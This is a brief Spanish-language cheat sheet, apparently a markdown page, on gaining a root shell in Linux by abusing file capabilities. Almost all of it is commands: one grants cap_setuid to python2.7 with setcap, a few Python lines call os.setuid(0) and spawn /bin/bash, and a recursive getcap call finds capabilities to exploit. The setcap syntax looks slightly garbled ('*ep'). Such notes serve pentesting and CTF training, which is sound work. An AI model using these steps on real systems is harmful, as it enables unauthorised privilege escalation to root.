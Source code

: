 ** Modificar capabilities a python2.7 para conseguir una shell interactiva como root **
Capability que da la capacidad a python2.7 de modificar el SUID de otros binarios.
> Modificar capability: `setcap cap_setuid*ep /usr/bin/python2.7`
> Iniciar sesión interactiva con python2.7: `python2.7`
> Comandos para obtener shell interactiva como root:
> `import os`
> `os.setuid(0)`
> `os.system("/bin/bash")`

** Ver capabilities asociadas de forma recursiva **
`getcap -r / 2>/dev/null`

